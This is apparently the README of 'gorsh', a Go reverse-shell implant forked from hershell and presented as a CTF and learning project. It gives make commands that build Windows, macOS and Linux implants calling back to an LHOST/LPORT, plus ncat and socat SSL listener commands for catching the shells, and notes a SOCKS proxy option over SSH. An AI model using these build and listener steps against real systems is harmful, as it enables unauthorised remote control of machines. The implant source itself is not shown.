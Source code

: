 # gorsh

[go]lang [r]everse [sh]ell

![](https://i.imgur.com/x51XH6K.png)
![](https://i.imgur.com/pvCmHYa.png)

Originally forked from - [sysdream/hershell](https://github.com/sysdream/hershell)

## Motivation

Learn go.  
Make a throwaway reverse shell for things like CTFs.  
Learn about host-based OPSEC considerations when writing an implant.

## Fork Changes

See the [Changelog](./docs/CHANGELOG.md)

## Getting started

Check out the [official documentation](https://golang.org/doc/install) for an intro to developing
with Go and setting up your Golang environment (with the `$GOPATH` environment variable).


```bash
go get github.com/audibleblink/gorsh/...
cd $GOPATH/src/github.com/audibleblink/gorsh
```

Makefile assumes this project is being built on Linux.

Be sure to read the Makefile. It gives you a good idea of what's going on.
If enabled in `Makefile`, the `zipcat` cmdlet uses the zStandard compression library which requires
`cgo` compilation.
Leave the defaults in the Makefile unless you're familiar with cross-compilation and cgo and have
the toolchains for it, or read [here](./docs/TROUBLESHOOTING.md) if you're feeling adventurous.

### Usage

First, generate your certs and ssh keys for the reverse proxy.

```bash
$ make depends
```

If you want to use `socks` feature, edit `configs/ssh.json`. Create a user on the SSH server
and give it a `/bin/false` shell in `/etc/passwd`

For the `make` targets, you only need the`LHOST`and`LPORT`environment variables.

Generate with:

```bash
$ make {windows,macos,linux}{32,64} LHOST=example.com LPORT=443
#or
$ make all LHOST=example.com LPOST=443
```

[Troubleshooting](./docs/TROUBLESHOOTING.md)


#### Catching the shell

The `make listen` target kicks off a tmux session and creates new windows with each new connection.
Feed it a port number as LPORT.

```sh
make listen LPORT=8080

# once a client connects
tmux attach -t GORSH
```

If your `socat` has been compiled with `READLINE` support, you get command history for free.

Shells can also be caught without tmux using:

* socat (not working on macos)
* ncat
* openssl server module
* metasploit multi handler (with a `python/shell_reverse_tcp_ssl` payload)

__Examples__

```bash
$ ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 1234
$ socat stdio OPENSSL-LISTEN:443,cert=server.pem,key=server.key,verify=0
```

Once executed, you will be provided with the tool's shell.
Type `help` to show what commands are supported.

## Credits

* Initial Work - Ronan Kervella `<r.kervella -at- sysdream -dot- com>`
* Modifications - f47h3r - [@f47h3r_b0](https://twitter.com/f47h3r_b0)
* mzpqnxow for figuring out my x-compilation and dependancy problems and troubleshooting guide
